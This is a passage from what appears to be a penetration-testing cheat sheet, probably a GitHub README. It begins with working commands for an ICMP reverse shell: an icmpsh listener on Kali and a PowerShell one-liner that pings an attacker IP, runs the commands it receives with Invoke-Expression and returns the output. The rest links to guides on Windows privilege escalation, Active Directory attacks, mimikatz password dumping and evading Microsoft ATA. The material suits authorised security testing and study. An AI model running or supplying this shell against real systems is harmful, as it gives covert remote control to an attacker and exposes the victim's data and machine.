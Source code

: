 ```
# ICMP
Kali> sudo python icmpsh_m.py $ATTACKER $TARGET
C:\> powershell -Command '$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $True;$packet = [Text.Encoding]::ASCII.GetBytes("pie");$client.Send("10.10.14.42", 500, $packet, $options);'
```

> ###### Reverse ICMP shell

```
Kali> sudo bash -c "echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all"
Kali> sudo python icmpsh_m.py $ATTACKER $TARGET

C:\> powershell -nop -Command "$IP = '10.10.14.42';$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $true;$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes('pie'), $options);while($true){$comms = $client.Send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes(''), $options);if($comms.Buffer){ $cmd = ([Text.Encoding]::ASCII).GetString($comms.Buffer);$reply = (Invoke-Expression -Command $cmd | Out-String);$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes($reply), $options);}}"
```

##### Services

[Windows Privilege Escalation via weak Service Permissions](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)

[The Art of Becoming TrustedInstaller](https://tyranidslair.blogspot.com/2017/08/the-art-of-becoming-trustedinstaller.html)

##### LDAP

[5 Ways to find Systems running domain admin processes](https://blog.netspi.com/5-ways-to-find-systems-running-domain-admin-processes/)

[I hunt SysAdmins part 1](http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/)

[I hunt SysAdmins part 2](https://www.slideshare.net/harmj0y/i-hunt-sys-admins-20)

[PenTesting Active Directory Environments: CrapMapExec](https://n0where.net/pentesting-active-directory/)

[Active Directory Privilege Relationships: BloodHound](https://n0where.net/active-directory-privilege-relationships-bloodhound/)

[Active Directory Architecture - MSDN](https://msdn.microsoft.com/en-us/library/bb727030.aspx)

[A Week of Evading Microsoft ATA Day 1](http://www.labofapenetrationtester.com/2017/08/week-of-evading-microsoft-ata-day1.html)

[Dumping a domains worth of passwords with mimikatz part 2](http://www.harmj0y.net/blog/powershell/dumping-a-domains-worth-of-passwords-with-mimikatz-pt-2/)

[Attack Methods for gaining Domain Admin](https://hackingandsecurity.blogspot.com/2017/07/attack-methods-for-gaining-domain-admin.html?view=timeslide)

[Find AD users with empty passwords](https://4sysops.com/archives/find-ad-users-with-empty-password-passwd_notreqd-flag-using-powershell/)
